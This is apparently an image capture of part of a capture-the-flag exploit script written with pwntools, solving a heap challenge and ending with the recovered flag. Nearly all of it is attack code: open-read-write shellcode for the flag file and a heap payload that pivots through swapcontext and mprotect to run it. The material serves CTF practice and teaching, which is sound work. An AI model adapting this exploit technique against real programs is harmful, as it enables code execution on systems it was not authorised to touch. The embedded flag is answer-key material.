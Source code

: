 ```
shellcode=asm(f'''
    mov rax, 0x67616c662f2e
    push rax
    xor rdi, rdi
    sub rdi, 100
    mov rsi, rsp
    push 0
    push 0
    push 0
    mov rdx, rsp
    mov r10, 0x18
    push SYS_openat2
    pop rax
    syscall

    mov rdi,rax
    mov rsi,{heap+0x300}
    mov rdx,0x50
    mov rax,0
    syscall

    mov rdi,1
    mov rax,1
    syscall
        ''')
#=========================================================
payload=flat({
    0x00:{
    0x18:p64(chunk2),
    0x28:p64(swapcontext)
    },
    0xa0:{
        0x00:p64(chunk2+0xa8),
        0x08:p64(rdi+1),
        0x10:p64(rdi+1),
        0x18:p64(rdi+1),
        0x20:p64(rdi+1),
        0x28:p64(rdi+1),
        0x30:p64(rdi+1),
        0x38:p64(rdi+1),
        0x40:p64(rdi+1),
        0x48:p64(rdi),
        0x50:p64(heap),
        0x58:p64(rsi),
        0x60:p64(0x20000)*2,
        0x70:p64(r13),
        0x78:p64(7),
        0x80:p64(rdx),
        0x88:p64(0)*4,
        0xa8:p64(mprotect),
        0xb0:p64(rdi+1),
        0xb8:p64(chunk2+0x200)
        },
    0x200:shellcode
    },filler=b'\x00')
add(16,0x400,payload)
ch(6)
io.interactive()
#miniLCTF{Thi5-1S-@aa4@AAA4A44aa@aa@@4a4-E4sy_Heap0}
```
